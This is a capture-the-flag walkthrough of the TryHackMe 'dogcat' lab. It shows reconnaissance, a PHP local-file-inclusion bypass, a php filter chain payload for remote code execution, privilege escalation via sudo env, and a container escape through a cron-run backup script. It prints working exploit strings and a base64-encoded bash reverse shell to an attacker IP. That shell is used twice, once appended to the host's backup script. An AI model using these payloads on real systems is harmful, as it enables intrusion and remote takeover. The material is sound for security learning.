








## TL;DR

In this challenge we exploit `LFI` to get `RCE` and then get shell as `www-data`.

We escalate to `root` using sudo on `/usr/bin/env`, and grab the third flag.

Then we break out of the container using `backup.sh` which we can control, and also being executed on the `host machine` every minute.

### Recon

we start with `rustscan`, using this command:
```bash
rustscan -a $target -- -sV -sC -oN nmap.txt -oX nmap.xml
```



we can see port `22` with ssh and port `80` with apache http server.
```bash
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 62 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 24:31:19:2a:b1:97:1a:04:4e:2c:36:ac:84:0a:75:87 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCeKBugyQF6HXEU3mbcoDHQrassdoNtJToZ9jaNj4Sj9MrWISOmr0qkxNx2sHPxz89dR0ilnjCyT3YgcI5rtcwGT9RtSwlxcol5KuDveQGO8iYDgC/tjYYC9kefS1ymnbm0I4foYZh9S+erXAaXMO2Iac6nYk8jtkS2hg+vAx+7+5i4fiaLovQSYLd1R2Mu0DLnUIP7jJ1645aqYMnXxp/bi30SpJCchHeMx7zsBJpAMfpY9SYyz4jcgCGhEygvZ0jWJ+qx76/kaujl4IMZXarWAqchYufg57Hqb7KJE216q4MUUSHou1TPhJjVqk92a9rMUU2VZHJhERfMxFHVwn3H
|   256 21:3d:46:18:93:aa:f9:e7:c9:b5:4c:0f:16:0b:71:e1 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBBouHlbsFayrqWaldHlTkZkkyVCu3jXPO1lT3oWtx/6dINbYBv0MTdTAMgXKtg6M/CVQGfjQqFS2l2wwj/4rT0s=
|   256 c1:fb:7d:73:2b:57:4a:8b:dc:d7:6f:49:bb:3b:d0:20 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIIfp73VYZTWg6dtrDGS/d5NoJjoc4q0Fi0Gsg3Dl+M3I
80/tcp open  http    syn-ack ttl 61 Apache httpd 2.4.38 ((Debian))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: dogcat
|_http-server-header: Apache/2.4.38 (Debian)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Let's add `dogcat.thm` to our `/etc/hosts`. 

### Find the first flag using LFI

We can see simple website when we view image.


I tried to give something else, and i got "Sorry, only dogs or cats are allowed.".

Then, I tried to give something with the word "dog" inside:
```bash
php://filter/convert.base64-encode/resource=dog/../index
```



we got the string:
```bash
PCFET0NUWVBFIEhUTUw+CjxodG1sPgoKPGhlYWQ+CiAgICA8dGl0bGU+ZG9nY2F0PC90aXRsZT4KICAgIDxsaW5rIHJlbD0ic3R5bGVzaGVldCIgdHlwZT0idGV4dC9jc3MiIGhyZWY9Ii9zdHlsZS5jc3MiPgo8L2hlYWQ+Cgo8Ym9keT4KICAgIDxoMT5kb2djYXQ8L2gxPgogICAgPGk+YSBnYWxsZXJ5IG9mIHZhcmlvdXMgZG9ncyBvciBjYXRzPC9pPgoKICAgIDxkaXY+CiAgICAgICAgPGgyPldoYXQgd291bGQgeW91IGxpa2UgdG8gc2VlPzwvaDI+CiAgICAgICAgPGEgaHJlZj0iLz92aWV3PWRvZyI+PGJ1dHRvbiBpZD0iZG9nIj5BIGRvZzwvYnV0dG9uPjwvYT4gPGEgaHJlZj0iLz92aWV3PWNhdCI+PGJ1dHRvbiBpZD0iY2F0Ij5BIGNhdDwvYnV0dG9uPjwvYT48YnI+CiAgICAgICAgPD9waHAKICAgICAgICAgICAgZnVuY3Rpb24gY29udGFpbnNTdHIoJHN0ciwgJHN1YnN0cikgewogICAgICAgICAgICAgICAgcmV0dXJuIHN0cnBvcygkc3RyLCAkc3Vic3RyKSAhPT0gZmFsc2U7CiAgICAgICAgICAgIH0KCSAgICAkZXh0ID0gaXNzZXQoJF9HRVRbImV4dCJdKSA/ICRfR0VUWyJleHQiXSA6ICcucGhwJzsKICAgICAgICAgICAgaWYoaXNzZXQoJF9HRVRbJ3ZpZXcnXSkpIHsKICAgICAgICAgICAgICAgIGlmKGNvbnRhaW5zU3RyKCRfR0VUWyd2aWV3J10sICdkb2cnKSB8fCBjb250YWluc1N0cigkX0dFVFsndmlldyddLCAnY2F0JykpIHsKICAgICAgICAgICAgICAgICAgICBlY2hvICdIZXJlIHlvdSBnbyEnOwogICAgICAgICAgICAgICAgICAgIGluY2x1ZGUgJF9HRVRbJ3ZpZXcnXSAuICRleHQ7CiAgICAgICAgICAgICAgICB9IGVsc2UgewogICAgICAgICAgICAgICAgICAgIGVjaG8gJ1NvcnJ5LCBvbmx5IGRvZ3Mgb3IgY2F0cyBhcmUgYWxsb3dlZC4nOwogICAgICAgICAgICAgICAgfQogICAgICAgICAgICB9CiAgICAgICAgPz4KICAgIDwvZGl2Pgo8L2JvZHk+Cgo8L2h0bWw+Cg==
```

which after decoding:
```php
<!DOCTYPE HTML>
<html>

<head>
    <title>dogcat</title>
    <link rel="stylesheet" type="text/css" href="/style.css">
</head>

<body>
    <h1>dogcat</h1>
    <i>a gallery of various dogs or cats</i>

    <div>
        <h2>What would you like to see?</h2>
        <a href="/?view=dog"><button id="dog">A dog</button></a> <a href="/?view=cat"><button id="cat">A cat</button></a><br>
        <?php
            function containsStr($str, $substr) {
                return strpos($str, $substr) !== false;
            }
	    $ext = isset($_GET["ext"]) ? $_GET["ext"] : '.php';
            if(isset($_GET['view'])) {
                if(containsStr($_GET['view'], 'dog') || containsStr($_GET['view'], 'cat')) {
                    echo 'Here you go!';
                    include $_GET['view'] . $ext;
                } else {
                    echo 'Sorry, only dogs or cats are allowed.';
                }
            }
        ?>
    </div>
</body>

</html>
```

Okay, so it's simply checking if the strings contains `dog` or `cat`, and then include it with the extension, if no extension is being 
supplied, it adds `.php`.

I executed `ffuf` and found `flag.php`:
```bash
┌──(agonen㉿kali)-[~/thm/Dogcat]
└─$ ffuf -u 'http://dogcat.thm/FUZZ' -w /usr/share/SecLists/Discovery/Web-Content/common.txt -e .php,.txt,.xml -fc 403

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://dogcat.thm/FUZZ
 :: Wordlist         : FUZZ: /usr/share/SecLists/Discovery/Web-Content/common.txt
 :: Extensions       : .php .txt .xml 
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response status: 403
________________________________________________

cat.php                 [Status: 200, Size: 26, Words: 3, Lines: 2, Duration: 166ms]
cats                    [Status: 301, Size: 307, Words: 20, Lines: 10, Duration: 160ms]
flag.php                [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 160ms]
index.php               [Status: 200, Size: 418, Words: 71, Lines: 20, Duration: 151ms]
index.php               [Status: 200, Size: 418, Words: 71, Lines: 20, Duration: 153ms]
```

So, I requests:
```bash
/?view=php://filter/convert.base64-encode/resource=dog/../flag
```



The first flag:
```bash
THM{Th1s_1s_N0t_4_Catdog_ab67edfa}
```

### LFI to RCE using php filter chain

we can easily add GET parameter with the extension, and then get `/etc/passwd`:
```bash
┌──(agonen㉿kali)-[~/thm/Dogcat]
└─$ curl 'http://dogcat.thm/?view=dog/../../../../../../../../../../../../etc/passwd&ext='
<!DOCTYPE HTML>
<html>

<head>
    <title>dogcat</title>
    <link rel="stylesheet" type="text/css" href="/style.css">
</head>

<body>
    <h1>dogcat</h1>
    <i>a gallery of various dogs or cats</i>

    <div>
        <h2>What would you like to see?</h2>
        <a href="/?view=dog"><button id="dog">A dog</button></a> <a href="/?view=cat"><button id="cat">A cat</button></a><br>
        Here you go!root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
    </div>
</body>

</html>
```

Using [https://github.com/synacktiv/php_filter_chain_generator](https://github.com/synacktiv/php_filter_chain_generator) we can get `RCE`, we just need to add `dog` after the word temp.

```bash
python3 php_filter_chain_generator.py --chain '<?php echo `$_GET[0]`; ?>'  | xclip -sel clip
```

and now just send, notice how the ends looks:

```bash
/?view=php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM869.UTF16|convert.iconv.L3.CSISO90|convert.iconv.UCS2.UTF-8|convert.iconv.CSISOLATIN6.UCS-4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.851.UTF-16|convert.iconv.L1.T.618BIT|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSA_T500.UTF-32|convert.iconv.CP857.ISO-2022-JP-3|convert.iconv.ISO2022JP2.CP775|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.ISO88597.UTF16|convert.iconv.RK1048.UCS-4LE|convert.iconv.UTF32.CP1167|convert.iconv.CP9066.CSUCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.CP950.SHIFT_JISX0213|convert.iconv.UHC.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP869.UTF-32|convert.iconv.MACUK.UCS4|convert.iconv.UTF16BE.866|convert.iconv.MACUKRAINIAN.WCHAR_T|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.iconv.UCS-2.OSF00030010|convert.iconv.CSIBM1008.UTF32BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.iconv.SJIS.EUCJP-WIN|convert.iconv.L10.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.iconv.SJIS.EUCJP-WIN|convert.iconv.L10.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF16|convert.iconv.ISO6937.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSIBM1161.UNICODE|convert.iconv.ISO-IR-156.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.CP950.SHIFT_JISX0213|convert.iconv.UHC.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.863.UNICODE|convert.iconv.ISIRI3342.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.851.UTF-16|convert.iconv.L1.T.618BIT|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.iconv.UCS-2.OSF00030010|convert.iconv.CSIBM1008.UTF32BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.iconv.UCS-4LE.OSF05010001|convert.iconv.IBM912.UTF-16LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP869.UTF-32|convert.iconv.MACUK.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.BIG5HKSCS.UTF16|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF16|convert.iconv.ISO6937.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF32|convert.iconv.L6.UCS-2|convert.iconv.UTF-16LE.T.61-8BIT|convert.iconv.865.UCS-4LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.MAC.UTF16|convert.iconv.L8.UTF16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSIBM1161.UNICODE|convert.iconv.ISO-IR-156.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.base64-decode/resource=php://tempdog&ext=&0=id
```



Let's add the payload from `penelope` for reverse shell:
```bash
printf KGJhc2ggPiYgL2Rldi90Y3AvMTkyLjE2OC4xNjQuMjQ4LzQ0NDQgMD4mMSkgJg==|base64 -d|bash
```



and we can grab the second flag:
```bash
www-data@6368d7bea22d:/var/www$ ls
flag2_QMW7JvaY2LvK.txt  html
 www-data@6368d7bea22d:/var/www$ cat flag2_QMW7JvaY2LvK.txt 
THM{LF1_t0_RC3_aec3fb}
```

### Privilege escalate to root using sudo on /usr/bin/env

I checked for sudo permissions:
```bash
www-data@6368d7bea22d:/var/www$ sudo -l
Matching Defaults entries for www-data on 6368d7bea22d:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on 6368d7bea22d:
    (root) NOPASSWD: /usr/bin/env
```

Okay, we can escalate to root using this `/usr/bin/env`, based on here [https://gtfobins.github.io/gtfobins/env/](https://gtfobins.github.io/gtfobins/env/).

```bash
www-data@6368d7bea22d:/var/www$ sudo env /bin/bash
root@6368d7bea22d:/var/www# id
uid=0(root) gid=0(root) groups=0(root)
```



and grab the third flag;
```bash
root@6368d7bea22d:~# ls
flag3.txt
root@6368d7bea22d:~# cat flag3.txt 
THM{D1ff3r3nt_3nv1ronments_874112}
```

### Break out of the container using scheduled backup script

We are inside the container as root, However, we need to break out.
I found the file `/opt/backups/backup.sh`, and relized this is doing some sort of backup of the container, and store it inside `/opt/backups`.

```bash
root@6368d7bea22d:/opt/backups# cat backup.sh 
#!/bin/bash
tar cf /root/container/backup/backup.tar /root/container
```

We can extract the files from `backup.tar`:
```bash
tar -xf backup.tar
```



we can find the DockerFile. Okay, maybe he backups every minute, I tried to remove the file `backup.tar` and it appears after.

We can notice that inside `launch.sh`, it sets mount between `/root/container/backup` on the host, and `/opt/backups` on our container:
```bash
root@6368d7bea22d:/opt/backups/root/container# cat launch.sh  
#!/bin/bash
docker run -d -p 80:80 -v /root/container/backup:/opt/backups --rm box
```

What if it simply executed `backup.sh`, when we can control it? Let's try to put our penelope payload inside `backup.sh`:
```bash
echo -e 'printf KGJhc2ggPiYgL2Rldi90Y3AvMTkyLjE2OC4xNjQuMjQ4LzQ0NDQgMD4mMSkgJg==|base64 -d|bash' >> /opt/backups/backup.sh
```

and we got the shell!



and grab the forth and last flag:
```bash
root@dogcat:~# cat flag4.txt 
THM{esc4l4tions_on_esc4l4tions_on_esc4l4tions_7a52b17dba6ebb0dc38bc1049bcba02d}
```

I checked after pwning, with `pspy` and found this is cronjob.
We can see here the file `/var/spool/cron/crontabs/root`:
```bash
root@dogcat:/var/spool/cron/crontabs# cat root 
# DO NOT EDIT THIS FILE - edit the master and reinstall.
# (/tmp/crontab.RnXUs2/crontab installed on Tue Mar 10 20:52:44 2020)
# (Cron version -- $Id: crontab.c,v 2.13 1994/01/17 03:20:37 vixie Exp $)
# Edit this file to introduce tasks to be run by cron.
# 
# Each task to run has to be defined through a single line
# indicating with different fields when the task will be run
# and what command to run for the task
# 
# To define the time you can provide concrete values for
# minute (m), hour (h), day of month (dom), month (mon),
# and day of week (dow) or use '*' in these fields (for 'any').# 
# Notice that tasks will be started based on the cron's system
# daemon's notion of time and timezones.
# 
# Output of the crontab jobs (including errors) is sent through
# email to the user the crontab file belongs to (unless redirected).
# 
# For example, you can run a backup of all your user accounts
# at 5 a.m every week with:
# 0 5 * * 1 tar -zcf /var/backups/home.tgz /home/
# 
# For more information see the manual pages of crontab(5) and cron(8)
# 
# m h  dom mon dow   command
* * * * * /root/container/backup/backup.sh
@reboot /root/container/launch.sh
```


